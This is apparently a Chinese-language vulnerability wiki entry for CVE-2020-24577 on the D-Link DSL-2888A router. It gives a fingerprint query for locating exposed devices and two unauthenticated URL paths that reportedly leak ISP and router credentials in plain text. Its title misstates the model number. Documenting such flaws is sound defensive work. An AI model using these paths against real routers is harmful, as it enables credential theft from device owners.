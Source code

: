 # D-Link DSL-28881A 信息泄露 CVE-2020-24577

## 漏洞描述

通过物理连接或无线访问建立与网络的连接后，恶意用户可以通过直接浏览以下URL来获取纯文本格式的Internet提供商连接用户名和密码，以及无线路由器的纯文本格式的用户名和密码

## 漏洞影响

<a-checkbox checked>D-Link DSL-2888A</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="DSL-2888A"</a-checkbox></br>

## 漏洞复现

登录页面输入任意密码建立连接



![img](../../../.vuepress/public/img/link-1-20220314114948366.png)



跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

访问下列两个连接

```
http://xxx.xxx.xxx.xxx:8008/tmp/cfg/lib_cfg_cfgcmd
http://xxx.xxx.xxx.xxx:8008/tmp/.nvram
```



![img](../../../.vuepress/public/img/link-3.png)

